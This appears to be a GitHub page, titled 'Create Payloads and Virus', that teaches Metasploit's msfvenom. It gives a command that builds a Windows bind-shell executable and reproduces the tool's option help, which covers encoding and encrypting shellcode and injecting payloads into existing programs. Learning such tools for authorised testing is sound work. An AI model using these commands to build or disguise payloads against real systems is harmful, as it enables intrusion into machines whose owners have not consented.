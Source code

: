 <img src="https://github.com/dewebdes/CYBER-MILITARY-GERMANY/blob/master/Metasploit/msfvenom/msfvenom.jpg" />
<h1>Create Payloads and Virus</h1>
<h2>MSFVenom is new and combine msfpayload, encrypts & others together</h2>
<h3>Sample usage</h3>
<code>msfvenom -p windows/shell_bind_tcp LPORT=1337 LHOST=<IP> -f exe -o bindshell.exe</code>
<p>
<h3>Get the list of <b>msfvenom</b> Algorithms & Options, all for all options and others for filter results </h3>
<code>
msfvenom -l [payloads,encoders,nops,platforms,archs,encrypt,formats,all]
</code>
</p>
<p>
<code>msfvenom -p linux/x86/shell_bind_ipv6_tcp --list-options</code>
	<br><b>show target payload options</b>
</p>
<p>
	<code>msfvenom -f [format-name]</code>
<h4>Raw Payload -> Encoder -> Formatting -> Output</h4>
</p>	
<p>
	-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)<br>
        	--sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string<br>
        	--smallest                   Generate the smallest possible payload using all available encoders<br>
        	<a href="https://www.linkedin.com/posts/kave-eyni-08060b59_5-common-encryption-algorithms-and-the-unbreakables-activity-6674037546470780928-GkvA">--encrypt</a>         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)<br>
        	--encrypt-key     <value>    A key to be used for --encrypt<br>
        	--encrypt-iv      <value>    An initialization vector for --encrypt<br>
	</p>
	<p>
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)<br>
        	--platform        <platform> The platform for --payload (use --list platforms to list)<br>
		</p>
		<p>
    -o, --out             <path>     Save the payload to a file
			</p>
    <p>
	    -b, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_bad-char-hacking-activity-6674042570320039936-8InL">--bad-chars</a>       <list>     Characters to avoid example: '\x00\xff'
	    </p>
	    <p>
    -n, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacker-lessons-activity-6674044482788450304-mXPf">--nopsled</a>         <length>   Prepend a nopsled of [length] size on to the payload<br>
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
		    </p>
    <p>
	    -s, --space           <length>   The maximum size </p>
	    <p>-c, --add-code        <path>     Specify an additional win32 shellcode file to include</p>
    <p>-x, --template        <path>     Specify a custom executable file to use as a template</p>
    <p>-k, --keep                       Preserve the --template behaviour and inject the payload as a new thread</p>
    <p>-v, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacking-lessons-activity-6674051666335158272-ZrT2">--var-name</a>        <value>    Specify a custom variable name to use for certain output formats</p>
    <p>-t, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_rapid7metasploit-framework-activity-6674053418291732480-eaeS">--timeout</a>         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)</p>
    <p>-h, --help                       Show this message</p>
